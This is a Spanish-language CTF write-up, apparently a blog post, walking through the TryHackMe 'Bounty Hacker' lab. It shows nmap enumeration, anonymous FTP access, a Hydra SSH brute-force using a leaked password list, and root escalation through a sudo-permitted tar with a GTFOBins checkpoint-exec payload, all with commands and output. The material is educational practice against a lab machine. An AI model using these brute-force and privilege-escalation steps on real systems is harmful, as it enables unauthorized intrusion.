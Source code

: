 ```yaml
---
layout: post
author: Temerio
---
```

![Bounty Hacker](https://i.imgur.com/qodkcem.jpg)
*You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!*

Puedes encontrar la Room [aquí](https://tryhackme.com/room/cowboyhacker) 
___

### Enumeration

```bash
┌──(temerio㉿Hackademy)-[~]
└─$ sudo nmap -p- -sS --min-rate 5000 -Pn 10.10.107.126
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-28 16:38 EDT
Nmap scan report for 10.10.107.126
Host is up (0.27s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 127.96 seconds
```
Vemos 3 puertos abiertos y nos conectamos al sitio web(Port 80)
![WebPage](https://i.imgur.com/swkGsAb.png?1)
Al no encontrar nada probamos con el siguiente puerto FTP (Port 21) e intentamos loguearnos como "Anonymous".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ftp 10.10.107.126    
Connected to 10.10.107.126.
220 (vsFTPd 3.0.3)
Name (10.10.107.126:temerio): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
Al dejarnos ingresar procedemos a listar el contenido.
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
El File Transfer Protocol (FTP) contiene 2 archivos:
- locks.txt
- task.txt

Procedemos a descargarlo mediante el comando "get".
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (2.5071 MB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (535.5343 kB/s)
```
Una vez descargados los archivos procedemos a visualizarlo en nuestra terminal mediante el comando "cat".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Podemos visualizar un nombre en este archivo llamado *lin* este nos puede servir más adelante, continuemos con el siguiente archivo.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat locks.txt       
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
### Bruteforce
Todo esto se parece a un diccionario de fuerza bruta, usaremos *Hydra* para intentar acceder al sistema.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ hydra -l lin -P /home/temerio/Desktop/Thm/BountyHacker/locks.txt 10.10.107.126 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-28 18:53:45
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.107.126:22/
[22][ssh] host: 10.10.107.126   login: lin   password: (Pass)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-28 18:53:56
```
Mediante Hydra logramos conseguir la contraseña para loguearnos por SSH (Port 22).
Procedemos a conectarnos a la PC de lin:
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ssh lin@10.10.107.126                                                                  
The authenticity of host '10.10.107.126 (10.10.107.126)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.107.126' (ECDSA) to the list of known hosts.
lin@10.10.107.126's password: (UsarPass)
```
```bash
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ whoami
lin
lin@bountyhacker:~/Desktop$ 

```
Logramos ingresar con exito, estamos en la Pc de lin, ahora debemos ver que archivos tiene.
```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
```
Encontramos la Flag del USER.
```bash
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{UserFlag}
```
### Privilege Escalation
Lo que ahora queda es encontrar una manera de escalar nuestros privilegios para convertirnos en root y eventualmente conseguir la flag de root.
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Ahora sabemos que el usuario lin tiene permiso para ejecutar **/bin/tar** como root, esto podría ser de gran ayuda para escalar privilegios.

Mi primer lugar es ir siempre a https://gtfobins.github.io/ para buscar posibles comandos para escalar privilegios mediante un binario específico con permisos especiales.
![GTFObins](https://i.imgur.com/Oh6qmye.png)
Busque **tar** en la barra de búsqueda y haga clic en la misma, desplácese hacia abajo hasta SUDO.
![GTFObinsudo](https://i.imgur.com/1gqBJ48.png)

Siempre debes leer la descripción. Se ve bastante bien para mí, no puedo resistirme a ejecutarlo y obtener root. Vamos a ver. Dedos cruzados..
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```
Hemos elevado con éxito nuestros privilegios y podemos confirmar que ahora somos root.
Tengo una última cosa que hacer y hemos terminado.. Necesitamos obtener la Flag de Root.
```bash
cat /root/root.txt
THM{RootFlag}
```
___
Eso es todo por esta room, espero que te haya gustado y mantente siempre en #HackMode!
*.-Temerio*
